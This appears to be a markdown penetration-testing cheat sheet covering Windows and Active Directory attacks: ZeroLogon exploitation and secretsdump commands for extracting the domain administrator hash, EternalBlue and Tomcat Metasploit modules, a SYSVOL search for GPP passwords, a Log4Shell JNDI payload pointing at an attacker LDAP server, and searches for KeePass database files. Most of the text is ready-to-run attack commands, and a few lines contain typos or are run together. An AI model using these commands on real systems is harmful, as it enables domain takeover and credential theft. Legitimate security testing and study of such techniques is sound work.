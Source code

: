 ### ZeroLogon (CVE-2020-1472)
- check for ZeroLogon vulnerability
```
`zerologon-scan '<DC_NETBios_NAME>' '<IP>'`
```
- Exploit 
```
python3 cve-2020-1472-exploit.py <MACHINE_BIOS_NAME> <IP> secretsdump.py <DOMAIN>/<MACHINE_BIOS_NAME>\$@<IP> -no-pass-just-dc-user "Administrator"
```
- Admin Hash extraction
```
secretsdump.py -hashes :<ADMIN_HASH> <DOMAIN>/Administrator@<IP>
```
- Restore password
```
python3 restorepassword.py -target-ip <IP> <DOMAIN>/<MACHINE_BIOS_NAME> -hexpass <HEXPASS>
```
### EternalBlue (MS17-010)
- Metasploit module for exploitation
```
exploit/windows/smb/ms17_010_eternalblue
```
### SYSBOL & GPP (MS14-025)
- Use scanners like scanner/smb/smb_enum_gpp toenumerate fulnerabilities
- Search for credentials in SYSVOL shared policies with 
```
findstr /S /I /p password /v <FQDN>\sysvol\<FQDN>\polocies\*.xml
```
### Tomcat/JBoss Management
- Metasploit modules
	- auxiliary/scanner/http/tomcat_enum
	- For exploitation and deploying payloads
		- exploit/multi/http/tomcat_mgr/deploy
### Java RMI
- Tools
	- auxiliary/misc/java_rmi_server
	- Tools like ysoserial for deserialization exploits
### ProxyLogom, ProxyShell & Log4Shell Exploits
- ProxyLogon
	- Use published exploits for the ProxyLogon vulnerability in Microsoft Exchange
- Log4Shell Exploit
	- Use rogue-jndi-1.0.jar to set up an LDAP refrence server 
```
${jndi:ldap://<IP>:<PORT>/o=reference}
```
### Database Credentials
- Enumerate MSSQL logins to gain potential credentials
	- admin/mssql/mssql_enum_sql_logins
### Finding KDBX files
- Windows
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
- Linux
```
find / -name *.kdbx 2>/dev/null
```
